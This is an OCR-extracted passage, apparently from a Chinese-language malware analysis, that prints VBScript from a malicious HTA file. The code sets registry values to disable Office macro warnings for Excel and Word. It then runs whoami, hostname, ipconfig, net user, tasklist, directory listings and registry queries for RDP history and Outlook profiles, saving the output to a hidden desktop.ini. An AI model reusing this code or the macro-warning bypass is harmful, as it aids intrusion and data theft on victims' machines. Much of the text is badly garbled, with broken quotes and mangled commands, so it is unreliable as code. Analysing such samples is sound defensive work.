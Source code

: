 ![](https://cdn-mineru.openxlab.org.cn/extract/b476e673-eace-488f-9e44-896c8b917ff4/e2b306c9c79c065029b47e28a1d817d384a72493bed3e1a1ef9f7a9bffdd8e98.jpg)  

再次获取到hta⽂件将收集主机名、⽤户名、IP信息、进程列表、磁盘信息、⽹络环境等信息，并创建计划任务定时获取命令执⾏  

set objFSo=CreateObject("Scripting.FileSystemObject") foldertmp =wShell.ExpandEnvironmentStrings(%appdata%")  

retu=wShe11.run（"cmd.exe/creg add \*\*&"HKEY_CURRENT_USER\SoftwareMicrosoft\Office\14.0\Exce1\Security"\*/vVBAWarnings/t REG_DWORD/d"\*1/f,0,true) retu=wShel1.run（cmd.exe/cregadd\*gHKEY_CURRENTUSER\SoftwareMicrosoft\Office\15.0\Excel\Security/vVBAWarnings/tREG_DWORD/d\*1\*/f,0,true) retu=wShelun(cmdexe/regadd\*&KEYCURENTUSER\SoftwareMicrosoft\Office\16.0\ExcelSecurity/VVBAlarnings/REGDORD/d\*/,,tru) retu=wShell.run（cmd.exe/creg add \*gHKEY_CURRENT_USER\SoftwareMicrosoft\Office\14.0\WORD\Security/vVBAlarnings/tREG_DHORD/d "\*1"/f",0,true) retu=WShel1.run（cmd.exe/Cregadd\*\*&HKEY_CURRENTUSER\SoftwareMicrosoft\Office\15.\WORD\Security\*/vVBAlarnings/tREGDORD/d\*/f,0,true) retu=wShell.run（“cmd.exe/creg add\*gHKEY_CURRENT_USER\Software\Microsoft\Office\16.0\WORD\Security/v VBAarnings/tREG_DHORD/d\*1/f0,true)  

fldr = wShel1.ExpandEnvironmentStrings("%appdata%) &“\Windows ttmp=f1dr &"\desktop.ini"  

If （objFso.FolderExists（fidr)=false) Then objFS0.CreateFolder（fldr)   
End If   
retu=wShell.run("cmd.exe/c whoami>> \*&ttmp&\*\*",0,true)   
retu=wShell.run（cmd.exe/chostname>>\*"gttmp\*,o,true)   
retu=wShell.run（cmd.exe/cipconfig/al1>> &ttmp&…,0,true)   
retu=wShellrun(cmdexe/netuser>\*&mpue)   
retuwShell.run（cmd.exe/cdir\*\*xprogramfilesx\*>>\*gtmp\*,0,true)   
retu=wShe11.run("cmd.exe/cdir\*%programfiles%（x86)\*>>"stmp&,0,true)   
retuwShel1.run（cmd.exe/cdir\*%programdata%\MicrosoftWindows\StartMenu\*\*>>\*\*\*gttmp\*\*,0,true)   
retu=wShell.run(cmd.exe/cdir\*%programdata%\MicrosoftWindows\StartMenu\Programs\*\*>>\*\*\*&ttmp\*\*\*true）   
retuwShell.run（cmd.exe/cdir"%appdata%Microsoft\Windows\Recent\*>>\*"&ttmp\*\*,0,true）   
retu=wShel1.run（cmd.exe/ctask1ist>>\*\*\*sttmp&\*\*\*",,true)   
retuwShel1.run（"cmd.exe /cver>> gttmp\*\*\*,0,true)   
retu=wshel1run(cmdexe/cet>>&tmp.,true）   
retuwShell.run("cmd.exe /creg query"\*HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Default\*\*>>\*\*"gttmp&\*\*",0,true)   
retu/ "",0,true) /s>gtmp.,.,true)   
ret=wshe11run(cmdxe/dir%systemrootSyso64windowsowerShe11/s>\*\*ttmp\*\*,true)   
retu=wShell.run（"cmd.exe vo1c:d:efg:hj：k：1mn::p:q：rit：uV:w：x:yz：ttmp0,true)   
retu=wShel1.run("cmd.exe Suserprof ,0,true)   
retu=wShell.run（"cmd.exe /cdir""%userprofile%\Docu nts"\*/s>…"gttmp…,o,true)   
retu=whel1ru(cmeregqueyEYURRESERSoftwareMcrsftffce\14ExeSeurity\*\*&t,   
retu=wShell.run("cmd.exe/cregquery"HKEY_CURRENT_uSER\SoftwareMicrosoft\Office\15.0\Excel\Security>>\*\*\*ttmp\*",0,true)   
retu=wShellrun(cmd.exe/cregquery"KEY_cuRRENTUSER\SoftwareMicrosoft\office\16.\Exce1\Security>\*-&ttmp",,true)   
ret/qSfSr   
retu=wShell.run(cmd.exe/cregquery"HKEY_CURRENTUSER\Software\Microsoft\Office\16.0\WordSecurity>\*-gtmp "=,0,true)   
retu=wShell.run("cmd.exe/cregquery“HKEY_CURRENTUSER\SoftwareMicrosoft\Office\14.0\Outlook\Autodiscover "&ttmp&" ",0,true)   
retu=wShell.run（"cmd.exe/creg query ""HKEY_CURRENT_USER\Software\Microsoft\Office\Outlook"">>\*\*gttmp" ",0,true)   
retu=wShell.run(cmd.exe/cregquery"HKEY_CURRENT_USER\Software\Microsoft\Windows NT\CurrentVersion\Windows Messaging Subsystem\Profiles\*/s>>\*\*\*s&ttmp&\*\*\*0,true)  
